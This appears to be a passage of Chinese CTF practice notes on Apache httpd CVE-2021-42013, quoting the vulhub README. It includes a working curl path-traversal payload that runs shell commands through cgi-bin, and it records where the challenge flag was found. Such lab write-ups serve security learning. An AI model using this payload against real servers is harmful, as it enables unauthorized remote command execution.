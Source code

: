 [vulhub/README.zh-cn.md at master · vulhub/vulhub](https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md)

```bash
在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

根目录下为假flag

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%2006%206a2030723e0843c9aa42c494cb1e2094/Untitled%202.png)

**想起来f12中的文件路径**

/usr/local/apache2/logs/access_log

结果太多转到了记事本里面搜索发现就在根目录有奇怪的文件夹

/diajgk/djflgak/qweqr/eigopl/fffffflalllallalagggggggggg

![Untitled](attachments/刷题记录%20f21c2ca430f14785a6c805dbe3406741/2022%2006%206a2030723e0843c9aa42c494cb1e2094/Untitled%203.png)
